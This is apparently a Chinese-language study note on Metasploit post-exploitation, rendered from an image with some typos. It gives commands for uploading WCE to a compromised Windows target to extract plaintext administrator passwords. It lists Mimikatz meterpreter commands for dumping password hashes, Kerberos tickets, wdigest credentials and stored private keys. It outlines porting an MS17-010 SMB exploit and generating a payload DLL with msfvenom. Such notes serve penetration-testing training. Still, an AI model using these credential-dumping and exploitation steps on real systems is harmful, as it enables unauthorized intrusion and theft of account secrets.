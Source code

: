 ```bash
# 先上传wce到目标
upload wce.exe
# 在目标的shell下执行
wce -w  # 便会成功提取明文管理员密码(默认是-l命令读取，-f强制安全方式读取，-g用来计算密码，-c制定会话来执行cmd，-v显示详细信息，-w最关键 --> 查看已登录的明文密码)



##### 4.使用Mimikatz抓取密码
msf内置了Mimikatz成为一个peterpreter脚本集成
load Mimikatz
help Mimikatz
# mimikatz_command # 可以让我们使用Mimikatz全部功能, 如(:: 请求某个模块可用的选项)
mimikatz_command -f hash::
mcv    # 抓取系统hash值
kerberos    # 抓取系统票据
wdigest   # 获取系统账户信息
mimikatz_command -f samdump::hash  # 抓取hash

## mimikatz 除了抓取hash，还有其他功能：比如 Handle模块，list\kill进程，模拟用户令牌等
mimikatz_command -f handle::
mimikatz_command -f service::  # servvice模块可以对win的服务进行...
mimikatz_command -f crypto::  # crypto可以列出 导出任何证书，以及存储在目标机器上的相应的私钥

# mimikatz 也支持PowerShell调用
脚本P228


能在PowerShell中执行mimikatz，偷窃和注入凭证，伪造Kerbero票证创建，还有其他很多功能
```



###### 后渗透攻击：移植漏洞利用代码模块
支持不同语言编写的模块移植进去，允许开发者开发自己的漏洞利用模块


MS17-010 --> 微软SMB远程代码执行漏洞

演示：移植MS17-010漏洞利用代码
```bash
# MS17-010 在msf中虽然有集成脚本，但是不适用于03系统，从网上自行下载
# clone脚本到本地，把rb脚本复制到/usr/share/metasploit-framework/modules/exploits/windows/smb下
raload all  # 然后在msf中重新加载脚本
之后就能search到了，用use加载它
# 开始
msfovenom 生成一个DLL文件(在下面set payload)
然后设置该模块的参数
run



```

